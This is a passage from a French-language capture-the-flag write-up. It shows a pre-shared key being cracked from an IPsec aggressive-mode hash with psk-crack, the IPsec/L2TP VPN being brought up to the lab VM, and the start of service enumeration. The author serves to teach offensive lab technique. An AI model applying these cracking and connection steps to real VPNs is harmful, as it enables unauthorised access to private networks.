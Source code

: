 On utilise ensuite l'outil *psk-crack* qui fait partie d'*ike-scan* :  

```plain
# ./psk-crack -d psk-crack-dictionary key 
Starting psk-crack [ike-scan 1.9] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "123456" matches SHA1 hash 3d0062d2d5565a9ab9b9c6cba66cdd62c8d4cfc0
Ending psk-crack: 36 iterations in 0.000 seconds (89330.02 iterations/sec)
```

La clé PSK est *123456*. On corrige le fichier *ipsec.secrets* et on lance le service *ipsec*. On lance ensuite spécifiquement la connexion VPN spécifiée dans les fichiers de configuration (nommée ici *vpn*) :  

```plain
# systemctl start ipsec
# ipsec auto --up vpn
003 "vpn" #1: multiple DH groups were set in aggressive mode. Only first one used.
003 "vpn" #1: transform (7,1,2,256) ignored.
003 "vpn" #1: multiple DH groups were set in aggressive mode. Only first one used.
003 "vpn" #1: transform (7,1,2,256) ignored.
112 "vpn" #1: STATE_AGGR_I1: initiate
003 "vpn" #1: received Vendor ID payload [Dead Peer Detection]
003 "vpn" #1: received Vendor ID payload [RFC 3947] method set to=115 
003 "vpn" #1: NAT-Traversal: Result using draft-ietf-ipsec-nat-t-ike (MacOS X): no NAT detected
004 "vpn" #1: STATE_AGGR_I2: sent AI2, ISAKMP SA established {auth=OAKLEY_PRESHARED_KEY cipher=aes_256 prf=oakley_md5 group=modp1536}
117 "vpn" #2: STATE_QUICK_I1: initiate
004 "vpn" #2: STATE_QUICK_I2: sent QI2, IPsec SA established transport mode {ESP=>0xfa9f345f <0x8f740735 xfrm=AES_256-HMAC_SHA1 NATOA=none NATD=none DPD=none}
```

On note que la connexion est bien établie en mode transport.  

On procède à la suite des instructions comme indiqué sur la page du challenge :  

```plain
# systemctl start xl2tpd
# ./start-vpn.sh
```

Au boût de quelques secondes une nouvelle interface réseau est apparue :  

```plain
ppp0      Link encap:Point-to-Point Protocol  
          inet addr:10.99.99.2  P-t-P:10.99.99.1  Mask:255.255.255.255
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1280  Metric:1
          RX packets:5 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:3 
          RX bytes:61 (61.0 b)  TX bytes:40 (40.0 b)
```

Enumeration des services
------------------------

Auparavant la VM ne semblait disposer que du port 81 ouvert. Maintenant si on relance un scan de ports :  
